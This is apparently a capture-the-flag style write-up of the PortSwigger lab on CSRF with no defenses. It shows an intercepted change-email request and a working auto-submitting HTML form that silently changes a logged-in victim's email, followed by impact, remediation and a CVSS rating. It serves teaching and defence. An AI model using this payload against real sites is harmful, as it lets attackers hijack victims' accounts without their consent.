


# Exploiting Undefended Cross-Site Request Forgery (CSRF)

## Overview

The system's email update function is susceptible to Cross-Site Request Forgery (CSRF). The endpoint that handles email modification requests lacks fundamental security controls, such as CSRF tokens, SameSite attributes, Origin checking, or Referer verification.

Consequently, a malicious webpage can be constructed by an attacker to silently trigger a request to this endpoint. If an authenticated user visits the attacker's site, their browser automatically appends their session cookies to the request, executing the email change without their consent. This allows malicious actors to execute unauthorized state-changing actions on behalf of legitimate users.

---

## Exploitation Steps

### Phase 1: Identifying the Vulnerable Endpoint

1. Authenticate with the application using the following credentials:

```text
Username: wiener
Password: peter
```

2. Head to the user profile area.
3. Initiate an email change.
4. Intercept the request using Burp Suite.
5. Inspect the generated HTTP request:

```http
POST /my-account/change-email HTTP/2

email=test@csrf.com
```

6. Notice the total lack of CSRF tokens or other defense headers.

---

### Phase 2: Constructing the CSRF Exploit Page

Create a basic HTML file with an auto-submitting form:

```html
<html>
  <body>
    <form action="https://TARGET-LAB.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked@evil.com">
    </form>

    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

The script block triggers form submission immediately upon page load.

---

### Phase 3: Deploying the Attack

1. Upload the constructed payload to the exploit server.
2. Access the exploit page locally to test it while authenticated.
3. Confirm that the browser automatically transmits the forged request.
4. Verify the email has changed without manual approval.
5. Deliver the link to the target user.
6. Verify the lab is successfully resolved.

---

## Proof of Concept

### Intercepted Request

```http
POST /my-account/change-email HTTP/2
Host: TARGET-LAB.web-security-academy.net
Cookie: session=<victim-session>

email=hacked@evil.com
```

### Attack Vector Payload

```html
<form action="https://TARGET-LAB.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="hacked@evil.com">
</form>

<script>
document.forms[0].submit();
</script>
```

### Exploit Outcome

The targeted user's registered email address is updated to the attacker's value without their knowledge.

---

## Screenshots

### Screenshot 1 – CSRF Proof of Concept

**Description:**

Constructing a malicious HTML payload containing a hidden email input field and an automated submission script to target the profile update endpoint.


---

### Screenshot 2 – Email Successfully Modified

**Description:**

Upon loading the exploit page, the authenticated profile's email address is modified to the attacker-defined address.



---

### Screenshot 3 – Lab Successfully Solved

**Description:**

PortSwigger confirms that the CSRF vulnerability was exploited successfully.



---

## Security Impact

* Unauthorized modification of account configuration details.
* Account takeover potential via subsequent password resets sent to the modified email.
* Execution of actions under the victim's session.
* Loss of application trust and integrity.
* Risk of full account compromise.

---

## Remediation Guidelines

1. Deploy anti-CSRF tokens for all state-changing endpoints.
2. Validate the tokens strictly on the backend.
3. Apply SameSite cookie attributes:

```http
Set-Cookie: session=xyz; SameSite=Strict
```

4. Verify Origin and Referer header values.
5. Require current password re-verification for high-risk changes.
6. Implement confirmation steps (e.g., dual-link email verification).

---

## CVSS Scoring

**CVSS v3.1 Score:** 8.8 (High)

### Vector

```text
CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N
```

---

## CVSS Rating Rationale

### Attack Vector

Network (N) – The exploit is served from a remote location.

### Attack Complexity

Low (L) – Only requires basic HTML/JavaScript page setup.

### Privileges Required

None (N) – The attacker does not need an active session to host the payload.

### User Interaction

Required (R) – The victim must click or load the exploit link.

### Scope

Unchanged (U) – The compromise is confined to the target application context.

### Confidentiality Impact

High (H) – Can lead to complete account recovery bypass.

### Integrity Impact

High (H) – Allows unauthorized modifications to user profile data.

### Availability Impact

None (N) – The exploit does not target service availability.

---

## External References

* OWASP Cross-Site Request Forgery Prevention Cheat Sheet
* OWASP Top 10 – Broken Access Control
* PortSwigger Web Security Academy – CSRF Vulnerability with No Defenses
